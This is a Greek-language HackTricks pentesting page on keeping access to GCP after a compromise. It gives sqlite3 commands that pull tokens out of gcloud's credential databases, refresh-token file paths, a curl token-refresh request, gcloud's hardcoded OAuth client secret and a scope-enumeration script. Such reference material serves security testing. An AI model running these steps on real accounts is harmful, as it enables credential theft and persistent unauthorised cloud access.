 # GCP - Μη-υπηρεσιακή Διατήρηση

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης των HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στα HackTricks** ή να **κατεβάσετε τα HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

Αυτές είναι χρήσιμες τεχνικές όταν, με κάποιον τρόπο, έχετε αφαιρέσει ορισμένα διαπιστευτήρια GCP ή μηχάνημα που εκτελείται σε ένα περιβάλλον GCP.

## Απαγωγή Διακριτικού

### Διακριτικά Χρήστη που Έχουν Ελεγχθεί

Για να λάβετε το **τρέχον διακριτικό** ενός χρήστη μπορείτε να εκτελέσετε: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Ελέγξτε σε αυτήν τη σελίδα πως να **χρησιμοποιήσετε απευθείας αυτό το τοκεν χρησιμοποιώντας το gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Για να λάβετε τις λεπτομέρειες για τη **δημιουργία ενός νέου τοκεν πρόσβασης** εκτελέστε: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Είναι επίσης δυνατόν να βρείτε refresh tokens στο **`$HOME/.config/gcloud/application_default_credentials.json`** και στο **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Για να λάβετε ένα νέο ανανεωμένο access token με το **refresh token**, τον αριθμό ταυτοποίησης πελάτη (client ID) και το μυστικό του πελάτη (client secret), εκτελέστε: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Η ισχύτητα των refresh tokens μπορεί να διαχειριστεί στο **Admin** > **Security** > **Google Cloud session control**, και από προεπιλογή είναι ρυθμισμένη σε 16 ώρες, αν και μπορεί να οριστεί να μην λήξει ποτέ:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Ροή Εξουσιοδότησης

Η ροή εξουσιοδότησης όταν χρησιμοποιείτε κάτι σαν το `gcloud auth login` θα ανοίξει ένα παράθυρο στον περιηγητή και μετά την αποδοχή όλων των scopes, ο περιηγητής θα στείλει ένα αίτημα όπως το παρακάτω στη θύρα http που είναι ανοικτή από το εργαλείο:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Στη συνέχεια, το gcloud θα χρησιμοποιήσει την κατάσταση και τον κώδικα με ένα σκληροκωδικοποιημένο `client_id` (`32555940559.apps.googleusercontent.com`) και **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) για να λάβει τα **δεδομένα τελικού ανανεωμένου τεκμηρίου**.

{% hint style="danger" %}
Σημειώστε ότι η επικοινωνία με το localhost γίνεται μέσω HTTP, οπότε είναι δυνατόν να παρακολουθηθούν τα δεδομένα για να ληφθεί ένα ανανεωμένο τεκμήριο, ωστόσο αυτά τα δεδομένα είναι έγκυρα μόνο μία φορά, οπότε αυτό θα ήταν άχρηστο, είναι πιο εύκολο απλά να διαβάσετε το τεκμήριο ανανέωσης από το αρχείο.
{% endhint %}

### Εμβέλειες OAuth

Μπορείτε να βρείτε όλες τις εμβέλειες της Google στο [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ή να τις λάβετε εκτελώντας:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Είναι δυνατόν να δούμε ποιες είναι οι εμβέλειες που μπορεί να υποστηρίξει η εφαρμογή που χρησιμοποιεί το **`gcloud`** για πιστοποίηση με αυτό το σενάριο:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Μετά την εκτέλεσή του ελέγχθηκε ότι αυτή η εφαρμογή υποστηρίζει αυτές τις εμβέλειες:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
### Λογαριασμοί Υπηρεσιών

Όπως και με τους εξουσιοδοτημένους χρήστες, αν καταφέρετε να **διαρρήξετε το αρχείο ιδιωτικού κλειδιού** ενός λογαριασμού υπηρεσίας, θα μπορείτε να **έχετε πρόσβαση σε αυτό συνήθως όσο θέλετε**.\
Ωστόσο, αν κλέψετε το **token OAuth** ενός λογαριασμού υπηρεσίας, αυτό μπορεί να είναι ακόμη πιο ενδιαφέρον, επειδή, ακόμη κι αν από προεπιλογή αυτά τα tokens είναι χρήσιμα μόνο για μία ώρα, αν ο **θύμα διαγράψει το ιδιωτικό κλειδί api, το token OAuth θα παραμείνει έγκυρο μέχρι να λήξει**.

### Μεταδεδομένα

Φυσικά, όσο βρίσκεστε μέσα σε μια μηχανή που τρέχει στο περιβάλλον GCP θα μπορείτε να **έχετε πρόσβαση στον λογαριασμό υπηρεσίας που είναι συνδεδεμένος με αυτή τη μηχανή επικοινωνώντας με το τέλος μεταδεδομένων** (σημειώστε ότι τα tokens OAuth που μπορείτε να έχετε πρόσβαση σε αυτό το τέλος είναι συνήθως περιορισμένα από scopes).

### Διορθώσεις

Ορισμένες διορθώσεις για αυτές τις τεχνικές εξηγούνται στο [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Αναφορές

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
